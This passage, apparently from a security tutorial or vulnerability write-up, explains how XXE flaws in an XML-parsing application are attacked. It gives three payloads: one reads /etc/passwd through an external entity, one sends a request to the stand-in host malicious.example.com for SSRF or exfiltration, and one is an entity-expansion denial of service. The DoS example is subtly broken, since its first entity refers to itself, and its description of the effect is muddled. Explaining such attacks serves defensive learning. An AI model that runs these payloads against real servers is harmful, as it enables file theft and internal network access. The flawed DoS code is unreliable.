 An attacker can craft malicious XML payloads to exploit this vulnerability. Here's how an attacker might proceed:

#### **a. Reading Sensitive Files**

By defining external entities that reference sensitive files on the server, an attacker can read their contents. For example:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY secret SYSTEM "file:///etc/passwd">
]>
<root>&secret;</root>
```

When the server parses this XML:

- `&secret;` is replaced with the contents of `/etc/passwd`.
- `root.text` now contains the sensitive data from `/etc/passwd`.
- This data is then stored as the user's bio and potentially rendered elsewhere in the application.

#### **b. Server-Side Request Forgery (SSRF)**

An attacker can craft an XML that causes the server to make HTTP requests to internal or external systems:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY ext SYSTEM "http://malicious.example.com/">
]>
<root>&ext;</root>
```

- The server attempts to fetch the external entity.
- This can be used to perform reconnaissance, access internal services, or exfiltrate data.

#### **c. Denial of Service (DoS)**

Crafting XML with deeply nested entities can exhaust server resources:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY a "&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;">
  <!ENTITY b "&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;">
  <!ENTITY c "&b;&b;&b;&b;&b;&b;&b;&b;&b;&b;">
  <!-- Continue nesting to create exponential growth -->
]>
<root>&c;</root>
```

- The parser enters an infinite loop or consumes excessive memory, leading to a DoS condition.

---

## **Impact of XXE Vulnerability**
